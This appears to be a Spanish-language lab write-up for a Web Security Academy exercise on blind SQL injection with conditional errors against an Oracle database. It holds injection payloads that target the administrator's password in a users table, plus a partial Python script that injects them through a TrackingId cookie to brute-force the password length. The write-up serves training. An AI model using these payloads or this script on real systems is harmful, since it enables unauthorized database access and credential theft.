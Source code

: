 ```bash
' or (select case when (1=1) then to_char(1/0) else 'a' end from dual)='a'--
```

estamos haciendo un select con un condicional, el **from dual** es porque es una DB oracle, pero como sabemos que tabla y usuario existe podriamos usar eso.

En este caso el condicional si **1=1** es verdadero mostrara un error intencionalmente **to_char(1/0)** esto convierte a char una division que saldria un error, caso contrario (else) imprime una **'a'** que es comparado contra una **'a'** lo que es verdadero y no muestra el error 500:

![[Pasted image 20230212234224.png]]

![[Pasted image 20230212234256.png]]

podemos usar la tabla y el usuario que sabemos que eisten:

```bash
' or (select case when (1=1) then to_char(1/0) else 'a' end from users where username='administrator')='a'--
```

creamos el siguiente script para determinar la longitud de la contraseña:

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#ctr+c
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0ad9007504cf9510c185dab5006f00d2.web-security-academy.net/"

def makeRequest():

    logitud = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Longitud")

    for position in range(1,50):
        cookies = {
            'TrackingId':"HuIEFSOLZ2xR1Kb5' or (select case when (length(password)=%d) then to_char(1/0) else 'a' end from users where username='administrator')='a'--" % (position),
            'session':'e7pYDD294jhx64lugK7Z7SDnBaPwqTX5'
        }

        p1.status(cookies['TrackingId'])

        r = requests.get(main_url, cookies=cookies)

        if r.status_code==500:
            logitud = str(position)
            p2.status(logitud)
            break


if __name__ == '__main__':
```